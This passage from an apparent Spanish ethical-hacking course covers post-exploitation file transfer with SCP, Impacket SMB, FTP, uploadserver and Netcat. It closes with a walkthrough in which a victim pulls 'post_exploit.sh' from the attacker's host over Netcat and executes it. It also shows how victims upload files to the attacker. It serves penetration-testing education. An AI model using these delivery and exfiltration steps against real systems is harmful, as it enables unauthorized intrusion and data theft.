scp archivo.txt usuario@IP:/ruta/destino/
```

**Recibir archivo de una máquina remota:**

```bash
scp usuario@IP:/ruta/archivo.txt .
```

---

#### 4. 📂 SMB (smbserver.py de Impacket)

Ideal para compartir archivos a víctimas Windows.

##### 📦 Instalación:

```bash
pip install impacket
```

##### ▶️ Uso:

**En tu máquina (compartir carpeta):**

```bash
impacket-smbserver share /ruta/del/archivo -smb2support
```

**Desde Windows (cliente):**

```powershell
copy \\IP\share\archivo.exe C:\Users\victim\
```

---

#### 5. 🌍 FTP (con PyFTPdLib o vsftpd)

Rápido si necesitas subir/bajar archivos grandes o múltiples archivos.

##### 📦 Instalación (en Kali o Linux):

```bash
pip install pyftpdlib
```

##### ▶️ Uso:

**Servidor FTP:**

```bash
python3 -m pyftpdlib -p 21
```

**Cliente FTP:**

```bash
ftp IP
# Luego usa: get archivo.txt
```

---

#### 6. 🔀 HTTP Upload (recepción desde víctima)

Puedes usar herramientas como `upload-server` para **recibir archivos desde otra máquina**.

##### 📦 Instalación:

```bash
pip install uploadserver
```

##### ▶️ Uso:

```bash
uploadserver
```

La víctima sube archivos vía navegador o `curl`.

---

### 🧠 Resumen Rápido

| Técnica                    | Necesitas en víctima | Ventaja clave          |
| -------------------------- | -------------------- | ---------------------- |
| Python HTTP + curl/wget    | curl o wget          | Muy simple y rápido    |
| Netcat                     | netcat               | Sirve sin internet     |
| SCP                        | SSH                  | Seguro y cifrado       |
| SMB (Impacket)             | Windows/Linux        | Ideal para Windows     |
| FTP                        | Cliente FTP          | Transferencia múltiple |
| HTTP Upload (uploadserver) | Navegador o curl     | Víctima envía archivos |

---

### 🧪 Ejemplo Completo Paso a Paso

#### 🎯 Objetivo:

Enviar un script `post_exploit.sh` desde tu máquina Kali a una víctima Linux **que no tiene `wget`, `curl` ni Python**, pero sí tiene **Netcat**.

---

#### ✅ Paso 1: En Kali (servidor, envía archivo)

```bash
nc -lvnp 5555 < post_exploit.sh
```

---

#### ✅ Paso 2: En la máquina víctima (cliente, recibe archivo)

```bash
nc TU-IP 5555 > post_exploit.sh
chmod +x post_exploit.sh
./post_exploit.sh
```

---

#### ✅ Resultado:

- El script `post_exploit.sh` ahora está en la máquina víctima.
- Fue transferido usando solo Netcat.
- No fue necesario acceso a Internet.

---

[🔼](#índice)

---

| **Inicio**         | **atrás 5**                                    | **Siguiente 7**                                            |
| ------------------ | ---------------------------------------------- | ---------------------------------------------------------- |
| [🏠](../README.md) | [⏪](./5_5_Deteccion_y_Evasion_de_defensas.md) | [⏩](./5_7_Hacking_Etico_en_entornos_reales_Amazon_AWS.md) |
